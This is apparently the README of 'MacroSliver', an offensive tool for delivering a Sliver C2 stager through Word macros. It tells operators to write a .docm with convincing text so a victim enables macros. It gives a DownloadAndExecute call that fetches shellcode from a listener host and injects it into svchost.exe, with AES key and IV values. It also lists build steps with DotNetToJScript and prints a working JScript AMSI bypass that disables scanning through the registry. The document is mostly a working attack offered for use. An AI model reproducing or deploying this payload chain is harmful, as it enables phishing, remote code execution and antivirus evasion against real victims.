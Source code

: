 # Macro Sliver

## Reference
https://github.com/Cyb3rDudu/MacroSliver

### Macro Usage
The file `macrosliver.vba` contains the VBA code that is directly usable in Word. Create a `.docm` file with convincing text to prompt the victim to enable macro execution, ensuring that the `Run()` function is triggered, for example, by calling it in the `Auto_Open()` trigger or a similar method, to catch the session with the instantiated listener. When the VBA function is executed, it deserializes the embedded stager DLL and invokes it. After that, the functions of the loader class can be called using the object `o`.
```VBA
    Set o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class)
    o.DownloadAndExecute "https://192.168.45.227:8064/hello.woff", "svchost.exe", "deflate9", "D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT", "8y/B?E(G+KbPeShV"
```
The arguments to pass are:
1. The stage listener URL where the shellcode is hosted.
2. The binary into which the process should be injected.
3. The compression algorithm: either `deflate9`, `gzip`, or an empty string if no compression was chosen when the listener was created.
4. The AES key.
5. The AES initialization vector.

## Build the assembly

The assembly can also be built by yourself if additional functionality is needed or if further obfuscation and AMSI bypass are required. To do this, open the solution file and build the integrated MacroSliver Project. It has to be built for the Any CPU configuration and does not need to be specified for a particular architecture. This allows the stage listener to provide the correct architecture for the target Office version.

The changes to the original stager include the handling of decompression in .NET v2 compared to .NET v4 and the AES decryption class. Additionally, VBA passes all parameters as strings rather than byte arrays, as in the original stager. So the aes key and iv are passed as strings.

After the assembly has been built, it can be used to create a VBA, HTA, or JScript script with DotNetToJScript.

## Create the Script
To generate the VBA script using DotNetToJScript, follow these steps:

1. Build DotNetToJScript: Clone and build the DotNetToJScript project from (GitHub)[https://github.com/tyranid/DotNetToJScript].
2. Prepare the necessary files: Copy the DotNetToJScript.exe, NDesk.Options.dll (created during the build process), and MacroSliver.dll into the same folder.
3. Execute the command: Run the following command to generate the VBA script.

Here are the detailed steps:

### Step 1: Build DotNetToJScript
1. Clone the DotNetToJScript repository:
```bash
git clone https://github.com/tyranid/DotNetToJScript.git
```
2. Navigate to the DotNetToJScript directory and build the project:
```bash
cd DotNetToJScript
msbuild /p:Configuration=Release
```
### Step 2: Prepare the Files
1. Copy `DotNetToJScript.exe` and `NDesk.Options.dll` from the build output directory (usually `bin\Release`) to a new folder.
2. Copy your `MacroSliver.dll` to the same folder.
### Step 3: Execute the Command
1. Open a command prompt in the folder containing `DotNetToJScript.exe`, `NDesk.Options.dll`, and `MacroSliver.dll`.
2. Run the following command to generate the VBA script:
```
.\DotNetToJScript.exe .\MacroSliver.dll --lang=vba --ver=v2 -c=Loader -o macrosliver.vba
```
This command will create a `macrosliver.vba` file that contains the VBA script generated from the `MacroSliver.dll`.
Finally add the call of `DownloadAndExecute` to trigger the stager instantiation.
```VBA
    o.DownloadAndExecute "https://192.168.X.X:8064/hello.woff", "svchost.exe", "deflate9", "D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT", "8y/B?E(G+KbPeShV"
```

## JScript

You can also create JScript payloads to deliver the dll via java script. Follow allong but transfer the methodolgy to JS. I believe you are smart enough to figure out how to do.

### AMSI Bypass

Bypassing AMSI highly reduces the detection rate, but DN2JS doesn't provide one natively. So, you can add the below AMSI bypass to your output JScript payloads much like I've done to the examples I've included in this repo.

> NOTE: You must do the bypass **after** the `setversion()` method runs or your payload will break.
> Credit: [rxwx/bypass.js](https://gist.github.com/rxwx/8955e5abf18dc258fd6b43a3a7f4dbf9) (*although its a pretty well-known bypass*)
{% code overflow="wrap" %}
```js
// 4MS7_BYP455
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";

try{
	var AmsiEnable = sh.RegRead(key);
	if(AmsiEnable!=0){
	throw new Error(1, '');
	}
}catch(e){
	sh.RegWrite(key, 0, "REG_DWORD"); // neuter AMSI
	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName,0,1); // blocking call to Run()
	sh.RegWrite(key, 1, "REG_DWORD"); // put it back
	WScript.Quit(1);
}
```
{% endcode %}

Sometimes the AMSI bypass itself is what gets your payload flagged so feel free to play around with it.
